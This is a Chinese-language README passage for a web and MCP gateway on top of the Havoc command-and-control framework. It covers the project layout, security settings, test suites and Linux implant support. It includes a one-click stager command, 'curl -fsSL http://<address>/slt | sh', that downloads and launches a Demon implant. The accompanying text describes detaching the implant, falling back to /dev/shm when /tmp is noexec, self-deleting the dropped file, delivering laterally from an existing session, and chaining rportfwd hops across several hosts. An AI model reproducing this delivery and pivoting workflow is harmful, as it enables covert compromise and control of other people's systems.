├── mcp_server.py         # MCP 服务：JSON-RPC 核心、GatewayClient、stdio/HTTP 传输、CLI
├── mcp_tools.py          # MCP 工具（69）/资源（15）/提示词（3）注册表
├── havoc_client.py       # teamserver WSS 客户端（登录/重连）
├── state.py              # 协议解码与状态（会话/监听器/事件/聊天/文件/进程/战利品/载荷/BOF）
├── filemanager.py        # 文件管理器：会话 FS 增删改查、空目录兼容、递归 shell 操作
├── commands.py           # 控制台命令构造（静态命令 + help + 文件参数）
├── demon_commands.py     # 命令元数据（自动生成：Commands.cc + client/Modules）
├── demon_help_zh.py      # help/子命令 Description 中文翻译
├── tools/
│   └── gen_demon_commands.py  # 重新生成命令元数据
├── pysdk/
│   ├── havoc.py          # Python SDK（Demon/Agent/Event/RegisterCommand/全局 API/...）
│   ├── host.py           # 常驻 Python 宿主（控制台 + 脚本共享解释器，JSONL）
│   ├── register.py       # 独立脚本注册（兼容旧流程/测试）
│   ├── run_command.py    # 独立执行脚本命令（兼容旧流程）
│   └── repl.py           # 旧版持久 Python 控制台（网关已改用 host.py）
├── static/               # 前端（Qt 客户端风格）
├── run/
│   ├── secret.key        # Web 登录 cookie 签名密钥（0600）
│   └── mcp.token         # MCP 访问令牌（0600，首次启动生成）
├── data/
│   ├── loot/             # 截图 / 下载文件 + .thumbs
│   ├── uploads/<demon>/  # 控制台上传的文件
│   ├── payloads/<id>/    # 生成的载荷
│   ├── extensions/       # 商店安装的脚本与模块；_uploads/ 为页面上传
│   ├── scripts.json      # 自动加载脚本列表 {"autoload": [...]}
│   ├── delivery_edges.json # Web 投递链虚线（0600，不影响 teamserver PivotParent）
│   ├── transports.json   # 传输监听器配置（0600）
│   ├── transports/certs/ # DoT 自签证书
│   ├── relays/<name>/    # 生成的中继器二进制
│   └── python_commands.json / python_modules.json
├── config.json
├── acceptance.py         # 基础验收（15 项）
├── mcp_test.py           # MCP 验收（协议/工具/stdio/网关挂载；--live 只读在线检查）
├── delivery_chain_test.py # 投递链虚线验收（解析/持久化/环检测/自动匹配）
├── ui_feature_test.py    # UI 功能验收（15 项，CDP）
├── command_test.py       # Demon 命令层验收（help/只读命令/数据包/上传）
├── ui_screenshot2.py     # 新版 UI 截图
└── docs/                 # 截图
```

## 7. 安全说明

- 网关默认监听 `0.0.0.0:8081` 仅为方便 Windows 侧访问，**不要暴露到办公网/公网**。
- Web 登录限速；cookie HttpOnly + SameSite；所有非 GET 请求与 WS 校验 Origin/Host。
- 响应带 CSP、`X-Frame-Options: DENY`、`nosniff`。
- **Python 脚本拥有与网关同等的控制面权限**：只加载可信脚本（商店脚本/自写脚本），
  `python.enabled=false` 可整体关闭；SDK 通过 `run/python.token`（0600）鉴权，仅本机可用。
- **MCP 访问令牌等同操作员权限**：`run/mcp.token`（0600，或 `mcp.token` 配置）可调用全部
  `/api/*` 与 `/mcp`；不要提交到版本库/截图。`mcp.enabled=false` 可整体关闭。
  远程接入建议只开放在受控网段，并在前面加 TLS 反向代理。
- 商店下载限制大小/文件数并防路径穿越；不自动执行脚本，需手动「加载」。
- 传输监听器强制 HTP/1 握手（Vkey HMAC）与 AES-256-GCM；`vkey/salt` 默认随机生成并
  以 0600 保存。传输监听器本身不做用户鉴权，改由 Vkey 认证客户端；
  `relay` 下载接口需要已登录的 Web 会话。
- 传输监听器的上游是 Havoc HTTP 监听器，网关会把代理的 absolute-form 请求行
  改写为 origin-form（`http_rewrite=true`，TLS 上游需关闭）。
- 操作审计：命令、监听器增删、会话标记、载荷生成、脚本加载都会写入事件日志。

## 7.1 传输监听器验收

```
cd webui
python3 transport_test.py         # 8 种模式 × Python 参考客户端，端到端回显
python3 transport_relay_test.py   # 8 种模式 × Go 中继器，端到端回显
python3 smoke_transports_live.py --modes tcp,kcp,udp,ws   # Windows 真机（用已有会话投递）
```

实测链路（2026-11-09）：Windows Demon → 本地 1080 中继器 → TCP/KCP/UDP/WS 加密传输 →
网关 → Havoc HTTP 监听器；四个新模式会话 `3448940c` / `7d0ac778` / `24e56318` / `6cd2ea8a`
均执行 `shell whoami` 成功，返回 `admin\administrator`。

### 4.12 Linux 会话与一键上线（2026-11-10 集成增强）

- 会话表「系统」列显示 `Linux <发行版>`，图标 `static/img/linux-icon*.png`；
- 控制台、文件浏览器、进程列表、战利品、上传下载、截图与 Windows 会话一致。

**监听器协议支持**

| 监听器 | Linux 载荷 | 说明 |
| --- | --- | --- |
| HTTP | ✅ | 直接回连（LAN-Test 实测） |
| HTTPS | ✅ | 自签名证书自动跳过校验（TLS-Test :8443 实测） |
| SMB pivot | ❌ | 依赖 Windows 命名管道 `\\.\pipe\…`，Linux 无等价物；Windows Demon 专用 |
| External | ❌ | 给第三方 Agent 的端点，Demon 本就不生成载荷 |
| 传输监听器（tcp/kcp/udp/ws/dns/doh/dot/oss） | ✅ | 不直接生成载荷：先生成 Go 中继器，再对「带 `127.0.0.1:1080` 代理的 HTTP 监听器」生成 Linux 载荷；代理地址由 teamserver 烘焙进 ELF（`ProxyEnabled/ProxyHost/...`） |

实测：TCP 中继（:9001）与 WebSocket 中继（:9002）各跑通一次 Linux 会话，
`/api/listeners` 里中继的 `connections/bytes_in/bytes_out` 有计数。

**Linux 一键上线（/slt）**

监听器页「一键上线命令」面板的 Linux 行已启用：

```sh
curl -fsSL http://<暂存地址>/slt | sh
```

`/slt` 由 `stager/stager_server.py` 动态生成（POSIX sh）：

- 按 `uname -m` 选择 `demon.x64.elf` / `demon.x86.elf`（`/health` 的 `linux_payloads` 会列出可用架构）；
- `curl` 优先、`wget` 兜底，下载到临时文件后 `chmod 700`；
- 有 `setsid` 用 `setsid`，否则 `nohup`，stdout/stderr 全部重定向，**不占用调用方 shell 的管道**；
- 临时目录按 `$TMPDIR → /dev/shm → $HOME` 回退（`/tmp` 挂 noexec 时仍可启动）；
- 启动时设置 `DEMON_SELF_DELETE=1`，由 Demon 自己在启动后删除落地文件；
  脚本另有 3 秒延时 `rm` 兜底。
  **注意**：不要改成启动后立即 `rm` —— 曾出现 `rm` 抢在 `setsid` exec 之前、
  新进程 execve 失败静默退出的竞态（表现为“命令回显 started 但没有新会话”）。

因此可以直接借助已有 Linux 会话横向投递：

```
shell curl -fsSL http://192.168.121.132:9901/slt | sh
```

本机实测：会话 `64670001` 执行上述命令 → 输出 `[+] started demon (x64)`，
新会话 `1ecd5198` 上线（进程 `/tmp/.hx64.<pid>`），原 shell 任务正常结束；
暂存服务 `hits/payload_hits/slt_hits` 计数增长，`last_slt` 记录最近一次 /slt 的来源 IP。Windows 的 `/swt` 行为不变。

**投递没有新会话时怎么查**

| 现象 | 判断/处理 |
| --- | --- |
| `logs/stager.log` 里没有该主机的 `GET /slt` | 目标到 9901 不通：检查网络/防火墙/暂存地址 |
| 有 `GET /slt`、没有 `GET /payloads/demon.*.elf` | 架构不在 `linux_payloads`（只放了 x64/x86）或下载被拦 |
| 有载荷下载、无新会话 | 目标到 8080（载荷里烘焙的回连地址）不通；`ss -ltn \| grep 8080` |
| `[+] started demon` 但会话表没变化 | 同主机会重名（hostname/IP 相同），看新 ID 与进程 `/tmp/.hx64.*`；旧版本脚本存在 exec 竞态，现已修复 |

`/health` 的 `slt_hits` / `last_slt` 可直接回答“目标到底有没有来取脚本”。



**多层跳板（Linux）**

平台没有为 Linux 增加专用 pivot 类型，用已有的 `rportfwd` + 「Hop 监听器」即可组链：

1. 在 A 会话上：`rportfwd add 0.0.0.0 18080 127.0.0.1 8080`（把 A 的 18080 反代到 teamserver 的 8080）；
2. 新建 HTTP 监听器 `Hop2`：`Hosts=[A 的地址]`、`PortConn=18080`、`PortBind` 随便一个空闲端口，
   **UA/Headers/Uris 与最终监听器保持一致**；
3. 用 `Hop2` 生成 Linux Exe，投递到 host2 执行 → 会话 B 通过 A 的隧道上线；
4. B 上再 `rportfwd add 0.0.0.0 18090 127.0.0.1 8080`，建 `Hop3`（PortConn=18090），
   生成载荷投递到 host3 → 会话 C 经 B→A→teamserver 上线。

三条会话实测（2026-11-10 收尾）：`4c0b4946`（A，直连）→ `0ea33e9a`（B，经 A:18080）→
`4bcf295f`（C，经 B:18090），C 上 `shell id -un; hostname` 回显 `kali` / `bogon`。
注意：会话图不会把 rportfwd 链画成父子；延迟为各层 sleep 之和，交互建议 `sleep 0`。

**rportfwd 流式化（2026-11-10）**：teamserver 的 `PortFwdRead` 改为分块读取并立即下发
`SOCKET_COMMAND_WRITE`，`SOCKET_COMMAND_OPEN` 后立即连接目标并启动读循环。因此：

- SSH/SMTP 等“服务端先说话”的协议无需客户端先发数据，banner 立即返回
  （真实 sshd 实测 1.0–2.2 秒，取决于各层 sleep）；
- agent 保持 HTTP keep-alive，经 rportfwd 的 HTTP 不再需要 `Connection: close`
  （同一连接连续两次 200 实测通过）；
- teamserver 重启后从 DB 恢复 HTTP 监听器时会保留 `PortConn`，Hop2/Hop3 的
  多跳配置不会退化成直连 `PortBind`；
- 会话表新增 **Listener 字段**（`LAN-Test` / `Hop2` …），注册时写入并持久化到
  `TS_Agents`（自动迁移旧库），重启后保留。

文件管理器回归：`cd webui && python3 file_manager_test.py`（Windows/Linux 各 15 项，自动挑选在线会话）；
UI 自动化另见 `docs/file-manager*.png` 截图与 `HANDOFF-WEBUI.md` 第 14 节。

回归脚本：`cd webui && python3 linux_agent_test.py`（20/20）——
自动构建临时 Linux Exe、上线、验证 shell/文件/proc、Qt 同款包命令兼容、
rportfwd banner 与 HTTP keep-alive，最后 `exit process` 清理。

**help 命令的 Linux 语义**

`help` 在 Linux 会话会自动加平台标注：有原生实现的命令不标，其余追加 `〔仅 Windows〕`
（108 条里 72 条标注）；`help <cmd>` 末尾会显示 `Platform` 一行。

`<cmd> help` 与 `help <cmd>` 等价，缺参数时可以直接查用法（例如 `klist help`、`config help`、
`schtasksquery help`）；命令因参数不足被拒时，控制台错误里也会附上 `用法：…` 和提示。
`cat help`、`dir help` 这类首参是路径/查询语句的命令保持原样，不会当成帮助。

平台可用性全量实测见 [`docs/command-matrix.md`](docs/command-matrix.md)
（Windows 112 条 / Linux 44 条可用、54 条仅 Windows），复跑：`python3 cmd_matrix_test.py`；
help 行为回归：`python3 cmd_help_test.py`（6 项）。

网关新增 `linux_compat.py`，把客户端 BOF 模块命令改写为 Linux 原生等价命令：

| 命令 | Linux 实现 |
| --- | --- |
| `whoami` | `id` |
| `env` | `env` |
| `ipconfig` | `ip -brief address` + `ip route` |
| `netstat` | `ss -tunap` |
| `arp` | `ip neigh` |
| `routeprint` | `ip route` |
| `listdns` | `resolvectl status` / `/etc/resolv.conf` |
| `locale` | `locale` |
| `uptime` / `netuptime` | `uptime -p` + `/proc/uptime` |
| `resources` | `df -h` + `free -h` |
| `userenum` / `netuser` | `getent passwd` |
| `sessions` / `enumlocalsessions` / `get-netsession` / `quser` | `who -u` |
| `nslookup` | `getent hosts`（有 dig 时 `dig +short`） |
| `windowlist` | `wmctrl -l` / `xdotool` |
| `tasklist` | agent 的 `proc list`（解析 `/proc`） |
| `net users/localgroup/sessions/domain` | `getent passwd|group`、`who`、`hostname -d` |
| `powershell` / `powerpick` | 已安装 `pwsh` 时执行，否则提示 |
| `screenshot` | agent 内 `import`/`grim`/`xwd+convert` 截屏（PNG 存入战利品） |
| `socks add/list/kill/clear` | teamserver 侧 SOCKS5，agent 执行 CONNECT/READ/WRITE/CLOSE |
| `rportfwd add/list/remove/clear` | agent 监听目标端口，经 teamserver 转发到 FwdAddr:FwdPort；流式双向转发（支持 SSH banner / HTTP keep-alive） |

Windows 专有语义（AD CS/Kerberos/注册表/服务/计划任务/令牌/注入/.NET/BOF/WMI/`nanodump`/
`pivot`（SMB）/`transfer`/`job`/`config` 等）在 Linux 上没有等价实现，
Web 控制台会标注「仅 Windows」，Qt 客户端直接下发时由 agent 回显不支持。




### 4.13 本轮差距补齐（2026-11-10）

| # | 差距 | 结果 |
| --- | --- | --- |
| 1 | Python SDK 全量接口 | 补 `LoadScript/GetDemons/GetListeners/GetAgents/GeneratePayload/Agent/Event`、`DllInject/DotnetInlineExecute/ProcessCreate/ShellcodeSpawn`；`RegisterCallback` 不再是空函数 |
| 2 | 会话右键「移除 / 退出」 | 菜单 + `POST /api/sessions/{id}/remove|exit`；移除本地隐藏、退出二次确认（仅 Demon） |
| 3 | 「断开连接」 | `POST /api/teamserver/disconnect` 关闭 ws 并暂停自动重连；`/api/reconnect` 恢复 |
| 4 | 脚本管理生命周期 | 上传 / 加载 / 重新加载 / 卸载 / `scripts.json` 自动加载；商店安装后自动注册 |
| 5 | Python 控制台语义 | 常驻 `pysdk/host.py`：控制台与脚本共享解释器、跨请求变量、崩溃自恢复 |
| 6 | 拓扑图 | 滚轮锚点缩放 0.3–3、背景拖拽平移、`+/-/0` 快捷键、视图持久化 |
| 7 | 控制台历史 | 按 Demon 隔离、上限 200、`localStorage` 持久化（50 会话 LRU） |
| 8 | 战利品截图「下载」 | 右键/双击下载 PNG，后端 `Content-Disposition`（RFC 5987 中文文件名） |
| 9 | 最后心跳列 | 显示 teamserver 绝对时间（与 Qt 一致），tooltip 相对时间 + sleep/jitter |







## 8. 已知限制

1. **非 UTF-8 输出不可逆**；默认 `shell_utf8` 规避。
2. **传输层为自研 HTP/1**：KCP 模式是可靠 UDP（ARQ），不与 kcp-go/VShell Agent 互通；
   DNS/DoH/DoT 为中继器直连监听器；OSS 为自建 PUT/GET 端点（未实现云厂商签名）。
   传输监听器不直接生成 Demon 载荷，需按 [docs/TRANSPORTS.md](docs/TRANSPORTS.md)
   用「带代理的 HTTP 监听器」生成。
3. **任务归因是启发式**（Console 消息不带 TaskID）。
4. **图形化扩展（havocui）不能在 Web 运行**：可安装/查看，但需 Qt 客户端加载。
5. **第三方 Agent**：`Agent` 只提供元数据与 `ConsoleWrite`；`Agent.Command`（第三方命令表）
   不在本批范围，调用会明确抛 `NotImplementedError`。`GetAgents()` 固定返回 `["Demon"]`。
6. **Python SDK 的 Web 限制**：`LoadScript` 只允许 `data/extensions` 或
   `havoc-src/client/Modules` 内的路径（越界抛 `HavocError`）；`GeneratePayload` 是同步 HTTP
   轮询（总超时 180s，构建忙返回 409）；`ShellcodeSpawn` 的 `Args` 以 UTF-8 字符串传递。
7. 需要本地文件的命令由 Web 上传到 `data/uploads/`；浏览器本地路径不能直接被 Demon 读取。
8. `config` 中客户端标记 “Not implemented” 的键（`implant.sleep-obf.technique`、
   `inject.spoofaddr`）保持同样错误，不会下发。
9. 网关重连会重放历史事件；早于本次连接的控制台输出不写入，避免串台。
10. 载荷构建一次只能一个（teamserver 限制），构建期间其他构建请求返回 409。
11. 多浏览器共用同一 teamserver 连接与同一个常驻 Python 宿主（与 Qt 客户端单解释器一致）；
    控制台 `havoc.RegisterCommand` 只在宿主生命周期内有效，不写入 `python_commands.json`。
12. **会话「移除」是本地语义**：只删除 Web 表格/拓扑/标签，不向 teamserver 发踢下线命令；
    同一连接内 teamserver 重放不会复活，网关重连后重新可见。「退出会话」会真实下发
    `exit thread|process`（仅 Demon，需二次确认）。
13. **手动断开**：`Havoc → 断开连接` 关闭 ws 并暂停自动重连，命令返回 503；真实网络故障仍会自动
    重连。`重新连接 teamserver` 恢复并重放会话。
14. **拓扑图**支持滚轮缩放（0.3–3）、拖动背景平移、`+/-/0` 与工具栏复位；节点拖动（客户端
    `ItemIsMovable`）未在本批实现。
15. **服务端插件监听器受 teamserver 限制**：只存在于 teamserver 内存（不写 `TS_Listeners`）；
    `Listener.Edit` 不处理插件协议（Web 编辑弹窗只读展示），`Listener.Remove` 不通知插件
    （端口可能继续占用）；teamserver 重放历史事件时，已断开的插件协议可能仍出现在下拉，
    此时创建会因插件不响应而返回 502，重新注册插件或重启 teamserver 可恢复。

## 9. 验收记录（2026-11-09 ~ 2026-11-11）

- `python3 service_listener_test.py` → **25/25**（2026-11-10）：服务插件注册协议可见、
  字段来自 `ListenerAdd`、API/UI 创建并真实绑定端口、必填校验、编辑明确拦截、
  UI 动态表单/只读语义/删除、LAN-Test 与 7 个 healthy 会话不受影响；
- `python3 transport_test.py` / `transport_relay_test.py` → **8/8 + 8/8**（2026-11-10 回归）；
- `python3 linux_agent_test.py` → **20/20**（2026-11-10 收尾）：临时构建/上线 Linux Demon、
  shell/文件/proc、Qt 同款包命令兼容、rportfwd banner 与 HTTP keep-alive、会话 Listener 字段；
- `python3 acceptance.py` → **15/15**（登录/会话/`shell whoami`/`shell net user`/审计/重连/9901）；
- `python3 ui_feature_test.py`（CDP 无头 Chromium）→ **15/15**：聊天、监听器、商店 19 项、
  脚本加载注册 4 条命令、Python 控制台、会话图、载荷表单、控制台、右键菜单 mousedown 回归、
  文件浏览器、进程列表；
- `python3 command_test.py` → **34/34**：
  - `help` 108 条基线逐行匹配 Qt（首条 `adcs_enum`、末条 `wmi_query`；13 个 Module），Description 中文化；
  - `help config` / `help dotnet execute` 的 Usage/Example；
  - `pwd`/`dir`/`ps`/`job list`/`net users`/`pivot list`/`socks list`/`transfer list`/
    `token list`/`luid`/`dotnet list-versions` 真实回显；
  - `whoami`/`arp`/`ipconfig`/`env`/`netstat` 模块 BOF 回显；
  - `dll`/`shellcode`/`inline-execute`/`dotnet`/`upload` 数据包字段；
  - 第三方 Agent 通用 `AgentCommand` 路径；
  - 上传 `env.x64.o` 后 `inline-execute` 回显；
